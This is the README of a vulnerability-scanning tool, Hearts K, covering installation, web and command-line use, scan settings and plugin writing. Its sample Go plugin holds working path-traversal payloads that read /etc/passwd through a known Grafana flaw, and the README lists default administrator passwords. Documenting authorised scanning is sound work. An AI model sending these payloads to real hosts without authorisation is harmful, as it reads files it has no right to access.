



# Hearts K 企业资产发现与脆弱性检查工具


<Alert type="warning">
本工具仅面向合法授权的企业资产风险检测，请严格遵守法律规定，不得危害国家安全、公共利益，不得损害个人、组织的合法权益，否则应自行承担所引起的一切法律责任。
</Alert>

## 特性

- 轻量，跨平台。支持在多种系统架构无需额外依赖运行，方便设备携带与任务执行
- 灵活的插件扩展机制，可编写自定义验证逻辑
- 丰富的检测插件，源于互联网及开放社区提供
- 极高的运行效率，允许设置扫描线程数量及响应超时
- 可视化，系统提供一套精美的 UI，自适应各种尺寸设备
- 安全，系统内置插件仅具有检测能力，无损害行为

## 启动

下载对应 OS ARCH 的软件包 [Hearts K-App releases](https://github.com/yqcs/heartsk_community/releases/)，解压之后赋予可执行权限之后直接运行即可。

Linux amd64 运行示例：

```bash
$ wget https://github.com/yqcs/heartsk_community/releases/download/LOWBUG@1.0.1/HeartsK_linux_amd64.zip
$ unzip HeartsK_linux_amd64.zip
$ cd HeartsK_linux_amd64
$ chmod +x HeartsK
$ ./HeartsK
```

### WEB 模式

为了方便使用，系统提供了 CLI 命令行以及更具交互性的 WEB 模式两种运行方式。WEB 模式需提供 License 文件，运行`./HeartsK`命令即可启动。 LOW BUG 版本已经签发了 WEB 模式需要的 License 及公钥文件。

运行之后访问`http://yourIP:80`即可进入登录页，使用-port 参数可指定端口。


系统内置了两个权限的账户，管理员与具有较高权限的高级用户，默认均是启用状态。

> 管理员：heartsk/heartsk
>
> 高级用户：superuser/superuser

### CLI 命令行

命令行模式无需授权及公钥文件，但是只具有基础的扫描模块，无法使用 WEB 模式的扫描配置以及信息收集等高级功能。执行-h 命令可获取相关帮助。

```bash
$ ./HeartsK -h
$ ./HeartsK -t 127.0.0.1 -p 1-500,3000-6000
```


### Linux For ARM（Android）

#### 具有 Root 权限可以避免百分之九十的问题！

安卓设备为例，直接使用 adb push 推送到 `/data/local/tmp/`目录，然后使用`chmod +x `赋予可执行权限即可直接运行。该方案不便随时运行，可使用终端软件 Termux 支撑。

下载终端工具[Termux](https://termux.com/) ，打开软件之后更新软件包然后安装 wget，再下载二进制程序。

```bash
$ pkg update
$ pkg upgrade
$ pkg install wget
$ wget https://github.com/yqcs/heartsk_community/releases/download/LOWBUG@Latest/HeartsK_linux_arm64.zip
$ unzip HeartsK_linux_arm64.zip
$ cd HeartsK_linux_arm64
$ chmod +x HeartsK
$ ./HeartsK
```

未授予 Root 权限会出现错误：` listen tcp 0.0.0.0:80: bind: permission denied`，使用-port 参数切换绑定端口即可。

执行扫描任务时出现错误：`xx on [::1]:53: read udp [::1]:37606->[::1]:53: read: connection refused`

> 有 ROOT 权限：在手机根目录的 /etc/ 文件夹下新建一个名为 resolv.conf 的文件，内容为`nameserver 8.8.8.8`（DNS 服务器），然后重启 Termux 之后再次运行即可。
>
> 无 ROOT 权限：执行`pkg install proot resolv-conf && proot -b $PREFIX/etc/resolv.conf:/etc/resolv.conf ./heartsk -port 8000`（运行参数）
> 至此，便可成功启动，在手机浏览器访问首页：http://127.0.0.1:8000 但是并不代表可以完整使用了，以非 ROOT 权限执行任务时切记将存活检测切换为 Ping 模式！！


## 系统结构

系统功能列表如下：

<Tree>
  <ul>
    <li>
      仪表盘
      <ul>
        <li>
          工作台
        </li>
      </ul>
    </li>
    <li>
      威胁情报
          <small>仅有信息收集，其他功能待上日程</small>
          <ul>
            <li>信息收集</li>
          </ul>
      </li>
    <li>
      任务管理
          <ul>
            <li>任务列表</li>
            <li>新建任务</li>
          </ul>
    </li>
    <li>
      扫描配置
          <ul>
            <li>扫描参数</li>
            <li>插件管理</li>
          </ul>
    </li>
    <li>
      系统设定
          <ul>
            <li>基本设置</li>
            <li>资源管理</li>
            <li>用户列表</li>
          </ul>
    </li>
  </ul>
</Tree>

## 威胁情报

> 模糊搜索：搜索互联网包含关键词的结果。
>
> 子域名：检测子域名，关键词填入域名及需设置第三方平台 Key。扫描配置—>扫描参数—>外连设置—>External interface key
>
> 目录扫描：扫描指定 URL 可能存在安全风险的资源地址。



## 任务管理

无障碍创建向导，高级设定：

> - 存活检测：ICMP 模式速度更快，但是需要 ROOT 身份运行，在无 ROOT 权限时请手动切换为 PING。
> - 告警级别：默认选择了中危，在执行扫描任务时如检测到等级大于等于中危的漏洞时会向用户邮箱发送告警通知。通报等级：严重>高危>中危>低危>信息>无
> - 基线检测：检查主机安全、数据库安全、中间件安全、网络/安全设备等。
> - 模糊存活：部分主机开启禁 PING，导致常规检测无法验证存活，此时可以启用该选项进行深度检测，默认已选中。
> - 扫描子域：从互联网检测目标的子域名，此选项需具有联网权限。
> - 目录扫描：扫描所有 HTTP/HTTPS 协议 WEB 服务可能存在安全风险的资源地址。


## 扫描配置

### JNDI 服务器

通常启动后首页会提示：JNDI 监控服务未启动，一些检测功能将会受到限制。解决方式：管理员账户前往 `扫描配置 —> 扫描参数 —> 外连设置`，有两种方案

> 自定义 JNDI 服务器：可在本机启动一个监听，服务器地址应当是本机内网/公网 IP 端口
>
> CEYE：配置 CEYE 平台的 Identifier 和 API Token 即可

然后选中对应的服务器模式，保存即可。未正确配置该选项会导致 log4j2 RCE 和 Fastjson RCE 等插件无法使用！

### 第三方平台

在执行子域名扫描以及信息收集的模糊搜索任务时，会依赖外界平台。请配置相关平台的身份验证信息，以保证数据的完整性。


### 字典配置

系统内置默认账户、密码组合。如果密码列里出现{user}占位符，则会被替换成用户名。


## 插件编写

### 流程可视化创建插件

请确保程序具有读写权限以及根目录存在 exploits 文件夹，插件名即是漏洞名称.yaml


#### 规则及语法

- Request 可视化编辑器，支持多套请求。
- 支持 CEL 函数语法，语法见下文。
- AND/OR 按钮：如果选中 AND，需要每个请求的响应均符合所设定的响应规则，如果为 OR 则只需符合其中一项即判定为具有该漏洞。

**注**：如果发送的请求是 Post Form 请求，Params 参数须先以 URL Encoded 编码转换。


#### 变量引擎

##### 字符串处理

| 函数名     | 等效代码                                                                     | 说明                                                |
| ---------- | ---------------------------------------------------------------------------- | --------------------------------------------------- |
| noContains | `!strings.Contains(string(v1), string(v2))`                                  | 判断 v1 是否包含 v2，返回 bool 类型结果             |
| bContains  | `strings.Contains(strings.ToLower(string(v1)), strings.ToLower(string(v2)))` | 判断 v1 是否包含 v2，返回 bool 类型结果，忽略大小写 |
| subString  | `func subString(str string, start , end int) return string `                 | 截取指定下标的字符串                                |
| hasPrefix  | `strings.HasPrefix(string(v1), string(v2))`                                  | 判断字符串 v1 是否以 v2 开头                        |
| hasSuffix  | `strings.HasSuffix(string(v1), string(v2))`                                  | 判断字符串 v1 是否以 v2 结尾                        |
| replace    | `strings.ReplaceAll(string(v1), string(v2), string(v3))`                     | 将 v1 中的 v2 替换为 v3，返回替换后的 v1            |

##### 字节数组处理

| 函数名     | 等效代码                                               | 说明                                                |
| ---------- | ------------------------------------------------------ | --------------------------------------------------- |
| bContains  | `bytes.Contains(v1, v2)`                               | 判断 v1 是否包含 v2，返回 bool 类型结果             |
| ibContains | `bytes.Contains(bytes.ToLower(v1), bytes.ToLower(v2))` | 判断 v1 是否包含 v2，返回 bool 类型结果，忽略大小写 |

##### 编码转换

| 函数名       | 等效代码                                     | 说明                                            |
| ------------ | -------------------------------------------- | ----------------------------------------------- |
| md5          | `crypot.ToMD5(string(v1))`                   | 返回字符串 MD5 的编码结果                       |
| base64       | `crypot.Base64Encode(string(v1))`            | 返回字符串/字节数组 base64 的编码结果           |
| base64Decode | `base64.StdEncoding.DecodeString(string(v))` | 返回字符串/字节数组 base64 字符串的解码结果     |
| urlEncode    | ` url.QueryEscape(string(v))`                | 返回字符串/字节数组 url decode 的编码结果       |
| urlDecode    | `url.QueryUnescape(string(v))`               | 返回字符串/字节数组 url decode 字符串的解码结果 |

##### 正则表达式

| 函数名   | 等效代码                                     | 说明                                                                          |
| -------- | -------------------------------------------- | ----------------------------------------------------------------------------- |
| sMatches | `regexp.MatchString(string(v1), string(v2))` | 正则表达式 v1 来匹配 v2，返回 bool 类型匹配结果                               |
| bMatches | `regexp.Match(string(v1), v2)`               | 正则表达式 v1 来匹配 v2，返回 bool 类型匹配结果，不同的是 bMatches 匹配字节流 |

##### 随机数

| 函数名          | 等效代码                                     | 说明                                   |
| --------------- | -------------------------------------------- | -------------------------------------- |
| randomInt       | `func randomInt(v1,v2 int) return int`       | 返回两个范围内的随机数                 |
| randomLowercase | `func randomLowercase(v1 int) return string` | 返回指定长度的小写字母组成的随机字符串 |

### 编写 GO 插件

如果生成的 yaml 插件无法满足需求，可以创建 go 文件，自己实现逻辑检测逻辑。下面是一个 Grafana 未授权任意文件读取漏洞检测插件的例子：

```go
package exploits

import (
  "fmt"
  "heartsk/scan/models"
  "heartsk/utils/netUtils"
  "heartsk/utils/randomUtils"
  "net/http"
  "strings"
  "time"
)

//init 注册插件插件
func init() {
	//payload
  path := []string{
    "public/static/plugins/alertGroups/////etc/passwd",
    "public/static/plugins/alertlist/////etc/passwd"}

  //注册插件
  models.Register(models.NewExploit{Info: models.AppVulInfo{
    App:   "Grafana",
    Query: "app=\"Grafana\"",
    Meta: models.VulMeta{
      Name:        "Grafana 未授权任意文件读取漏洞",
      Tags:        []string{"file_read"},
      Author:      "一曲成殇",
      Description: "Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。",
      Homepage:    "https://grafana.com/",
      Level:       4,
      References:  "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798",
      Solution:    "官网更新补丁：https://grafana.com/",
      CreateAt:    "2021-12-07",
    },
  }, Exploit: func(scheme, ip string, port int, duration time.Duration) (result models.VulResult) {

	  //在此块实现业务逻辑
    url := fmt.Sprintf("%s://%s:%d", scheme, ip, port)

    for _, item := range path {

      req, err := http.NewRequest("GET", url+item, nil)
      if err != nil {
        return
      }

      req.Header.Set("user-Agent", randomUtils.GetUserAgent()) //设置随机UA
      //参数：request、超时时间、允许重定向
      resp, err := netUtils.SendHttp(req, duration, true)

	  //如果请求成功发送且响应body包含/sbin:/ 则判定为具有该漏洞
      if err == nil && strings.Contains(string(resp.Body), "/sbin:/") {
        result.State = true                 //设置状态为发现漏洞
        result.Response = resp.ResponseRaw  //捕获响应RAW
        result.Request = resp.RequestRaw    //捕获请求Raw
        break
      }
    }
    return
  }})
}
```

#### models.VulResult 结构体内容如下：

```go
type VulResult struct {
	Request  string `json:"request"`  //请求raw
	Response string `json:"response"` //响应raw
	State    bool   `json:"state"`    //状态：true为检测到漏洞
}
```

#### netUtils 网络工具包：

发送 net 时请使用下面封装好的两个函数，否则网络代理以及全局超时无法生效！

```go
// Result 封装的http返回包
type Result struct {
    Body        []byte           //字节数组类型body
    Other       *http.Response   //原始 http.Response
    RequestRaw  string           //请求的完整Raw
    ResponseRaw string           //响应的完整Raw
    HeaderRaw   string           //响应的Header Raw
}

//SendHttp 封装http函数
func SendHttp(request *http.Request, timeout time.Duration, redirect bool) (result Result, err error)

//SendDialTimeout 封装net.DialTimeout函数
func SendDialTimeout(network, address string, timeout time.Duration) (net.Conn, error)

```

编写好之后放到程序根目录下 exploits 文件夹下，重启系统即可加载插件。

提交到我们：https://github.com/yqcs/heartsk_community/issues
